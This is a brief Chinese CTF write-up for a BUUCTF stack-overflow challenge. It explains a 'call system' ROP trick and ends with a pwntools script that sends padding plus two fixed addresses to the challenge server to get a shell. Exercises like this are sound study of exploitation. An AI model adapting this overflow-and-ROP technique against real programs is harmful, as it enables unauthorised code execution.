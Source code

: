 ### Call system ROP

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67d8e3c588c538a9b5c01226.png)

存在 read 栈溢出

![](https://pic1.imgdb.cn/item/67d8e42288c538a9b5c01263.png)

可利用字节数只有 12 个，没法利用 plt 地址了，因为 plt 地址需要返回值

![](https://pic1.imgdb.cn/item/67d8e43988c538a9b5c0126f.png)

使用 `call system` 来调用 `system`，`call` 函数不用返回值了，它会自己把下一条指令给压进去

![](https://pic1.imgdb.cn/item/67d8e55e88c538a9b5c0130e.png)

找可用字符串

![](https://pic1.imgdb.cn/item/67d8e5c588c538a9b5c0136b.png)

构造 payload

```python
from pwn import*

p = remote('node5.buuoj.cn',27415)

payload = b'a' * 28 + p32(0x08048529) + p32(0x08048670)

p.sendline(payload)
p.interactive()
```

